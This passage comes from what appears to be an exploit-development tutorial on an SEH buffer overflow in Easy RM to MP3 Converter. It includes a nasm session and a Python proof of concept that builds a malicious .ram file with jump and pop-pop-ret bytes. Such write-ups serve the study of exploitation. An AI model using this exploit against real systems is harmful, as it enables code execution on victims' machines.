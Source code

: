 The next thing to do is to add a long jump before the nSEH, meaning that as soon as the execution continues, the short jump will lead execution to the long jump, going backwards within the buffer. In this case, i decided that 5000 bytes should be a good distance:

```term_session
root@kali:~# msf-nasm_shell 
nasm > JMP -5000 
00000000  E973ECFFFF        jmp 0xffffec78
nasm > 
```

Additionally, INC3 bytes will be embedded between the A's, meaning that if a breakpoint is matched within such bytes, the jump had worked as planned.

Updated PoC:

```term_session
import struct

sjmp = "\xE9\x73\xEC\xFF\xFF"
nseh = "\xEB\xF9\x90\x90"
seh = "\x3C\x56\x40" # 0x0040563c : pop ebx # pop ebp # ret 0x04 | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [RM2MP3Converter.exe] 
ASLR: False, Rebase: False, SafeSEH: False, OS: False, v2.7.3.700 (C:\Program Files\Easy RM to MP3 Converter\RM2MP3Converter.exe)

buffer = "A" * 44000 + "\xcc" * 200 + "A" * (45388 - 44000 - 205) + sjmp + nseh + seh

f = open ("finding2.ram", "w")
f.write(buffer)
f.close()
```

Right after pressing SHIFT+F9, the execution stops on INC3 bytes:

![](/assets/img/Findings2/11.png)

